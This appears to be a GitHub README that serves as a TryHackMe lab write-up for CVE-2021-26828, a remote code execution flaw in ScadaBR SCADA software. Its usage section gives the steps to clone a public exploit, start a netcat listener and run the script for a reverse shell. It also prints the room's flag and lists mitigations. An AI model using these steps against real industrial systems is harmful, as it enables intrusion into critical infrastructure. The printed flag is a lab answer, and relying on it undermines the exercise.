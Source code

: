 # CVE-2021-26828 – ScadaBR 1.0 Remote Code Execution (TryHackMe – Industrial Intrusion: Web Brr v1)

> ⚠️ **Disclaimer**  
This repository is intended strictly for educational and research purposes only.  
The information and code provided here can be used in **controlled environments**, such as private lab machines or platforms like TryHackMe.  
**Unauthorized use of this code against systems you do not own or have explicit permission to test is illegal and unethical.**  
The author is not responsible for any misuse or damages caused.

---

## 🔍 About the Vulnerability

An unauthenticated Remote Code Execution vulnerability exists in **ScadaBR 1.0**, which is based on the **Mango M2M** framework.  
This vulnerability (CVE-2021-26828) allows attackers to inject arbitrary code through the SQL script execution mechanism.

In TryHackMe's *Industrial Intrusion* room (Task 10 – Web Brr v1), a forgotten HMI node was found running a vulnerable ScadaBR interface that could be exploited using this CVE.

- **CVE ID:** CVE-2021-26828  
- **Exploit-DB:** Not listed (hosted on GitHub)  
- **Vulnerable Application:** ScadaBR 1.0 (Mango M2M fork)  
- **Impact:** Remote Code Execution  
- **Authentication Required:** ❌ No (depending on deployment)  
- **Network Access Required:** ✅ Yes  

---

## 📂 Exploit Overview

- **Exploit Type:** Script Injection → Reverse Shell  
- **Exploit Title:** ScadaBR 1.0 – Remote Code Execution  
- **Source:** [hev0x/CVE-2021-26828_ScadaBR_RCE](https://github.com/hev0x/CVE-2021-26828_ScadaBR_RCE)  
- **Language:** Python  
- **Authentication Required:** ❌ No  

---

## ⚙️ Exploit Usage

> 🐍 Exploit script: `exploit.py` from the GitHub repository

### 🔧 Modify and Run

1. Clone the repo:
   ```bash
   git clone https://github.com/hev0x/CVE-2021-26828_ScadaBR_RCE
   cd CVE-2021-26828_ScadaBR_RCE
   ```

2. Edit the script to match your listener port and target IP if needed.

3. Start your Netcat listener:
   ```bash
   nc -nlvp 4444
   ```

4. Run the exploit:
   ```bash
   python3 exploit.py --rhost <target-ip> --lhost <your-ip> --lport 4444
   ```

> ✅ A reverse shell should be returned to your listener on successful execution.

---

## 📸 Demonstration

1. **Accessing the Vulnerable SCADA Interface**  
   ![SCADA Interface](./img/interface.png)

2. **Running the Exploit Script**  
   ![Exploit Execution](./img/exploit.png)

3. **Reverse Shell Received**  
   ![Shell](./img/shell.png)

> 💡 *Images are optional and can be hosted via GitHub issues or embedded as needed.*

---

## 🏁 Flag Captured

After gaining shell access in the TryHackMe room, the flag was retrieved using:

```bash
cat /home/user/flag.txt
```

### 🎉 Flag:
```
THM{rce_archieved_through_script_injection}
```

---

## 🔒 Mitigation

- Upgrade to a secure or maintained version of ScadaBR or Mango  
- Disable SQL script execution features if not in use  
- Enforce network segmentation for SCADA/HMI systems  
- Monitor for unusual outbound traffic from SCADA zones  
- Restrict public exposure of SCADA interfaces and admin panels  

---

## 📚 References

- [https://github.com/hev0x/CVE-2021-26828_ScadaBR_RCE](https://github.com/hev0x/CVE-2021-26828_ScadaBR_RCE)  
- [TryHackMe – Industrial Intrusion](https://tryhackme.com/room/industrialintrusion)

---

## ✍️ Blog Walkthrough

Check out the detailed explanation and lab demonstration in the Medium blog:  
👉 **[Read the Medium blog](https://medium.com/@sakshi.infosec)**

---

## 👩‍💻 Author

**CyberQuestor-infosec**  
🔗 [GitHub](https://github.com/CyberQuestor-infosec) | ✍️ [Medium](https://medium.com/cyberquestor/tryhackme-industrial-intrusion-task-10-web-brr-v1-cve-2021-26828-rce-850df114a357)
